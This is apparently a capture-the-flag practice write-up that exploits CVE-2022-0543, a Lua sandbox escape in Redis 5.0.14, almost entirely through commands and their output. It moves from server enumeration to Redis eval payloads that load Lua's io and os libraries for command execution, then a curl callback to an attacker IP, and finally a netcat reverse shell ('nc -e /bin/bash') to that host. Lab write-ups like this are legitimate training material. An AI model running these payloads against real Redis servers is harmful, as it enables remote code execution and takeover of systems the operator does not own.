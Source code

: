 # CVE-2022-0543 Lua Sandbox Escape in Redis
Get `redis` information
```
192.168.103.166:6379> info
# Server
redis_version:5.0.14
...
```
Googled `redis 5.0.14 exploit` and found [CVE-2022-0543](https://github.com/vulhub/vulhub/tree/master/redis/CVE-2022-0543)

Check protected mode status
```
192.168.103.166:6379> CONFIG GET protected-mode
1) "protected-mode"
2) "no"
```
Check for `module` loading
```
192.168.103.166:6379> MODULE LIST
(empty array)
192.168.103.166:6379> MODULE LOAD /tmp/doesnotexist.so
(error) ERR Error loading the extension. Please check the server logs.
```
Test code execution
```
192.168.103.166:6379> eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0
"uid=107(redis) gid=114(redis) groups=114(redis)\n"

192.168.103.166:6379> eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("which nc", "r"); local res = f:read("*a"); f:close(); return res' 0
"/usr/bin/nc\n"
```
Further googling on `luaopen_io for RCE` and came across  
- https://ine.com/blog/cve-20220543-lua-sandbox-escape-in-redis  
- https://www.ubercomp.com/posts/2022-01-20_redis_on_debian_rce  

Modified the code
```
192.168.103.166:6379> eval 'local os_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_os"); local os = os_l(); os.execute("curl 192.168.45.238"); return 0' 0
```
Check listener
```
┌──(kali㉿kali)-[~/ws/pgpractice/readys]
└─$ rlwrap nc -lvnp 80   
listening on [any] 80 ...
connect to [192.168.45.238] from (UNKNOWN) [192.168.103.166] 55532
GET / HTTP/1.1
Host: 192.168.45.238
User-Agent: curl/7.64.0
Accept: */*
```
Remarks: Connection Established!

Get Shell
```
192.168.103.166:6379> eval 'local os_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_os"); local os = os_l(); os.execute("/usr/bin/nc -e /bin/bash 192.168.45.238 80"); return 0' 0
```